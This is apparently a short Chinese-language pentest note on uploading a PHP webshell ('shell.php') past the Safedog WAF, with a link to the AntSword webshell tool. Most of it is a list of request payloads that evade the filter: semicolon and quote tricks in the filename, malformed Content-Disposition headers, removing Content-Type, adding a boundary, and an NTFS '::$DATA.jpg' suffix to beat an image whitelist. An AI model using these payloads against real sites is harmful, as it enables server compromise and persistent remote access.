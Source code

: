   https://www.yuque.com/antswordproject/antsword/yuakxl

  

## 安全🐕检测内容

- 不允许php后缀上传

- 上传时，不检查文件内容

- 访问时，不允许访问含有恶意内容的php文件

  

## 部分成功的

### 后缀绕过

waf是解析最后一个参数，最后一个;后面的，但是如果最后一个；后面没有参数，

后端就取前一个,waf识别到空

```php
filename=shell.php;
```

![image-20230517144614924](../images/image-20230517144614924.png)

```php
filename='shell.php'; # 双引号不行
```

![image-20230517144541805](../images/image-20230517144541805.png)

```php
Content-Disposition: form-data; name="upload_file";filename=shell.php

除了shell.php处，其他地方加换行，或脏数据都可
```

![image-20230517145839048](../images/image-20230517145839048.png)

删除`content-type`

![image-20230517153416749](../images/image-20230517153416749.png)

增加`boundary`

![image-20230517175433650](../images/image-20230517175433650.png)



安全🐕+代码白名单（后缀只允许图片）

上面任意一个绕过（除了；绕过）+

```
filename=shell.php::$DATA.jpg
```
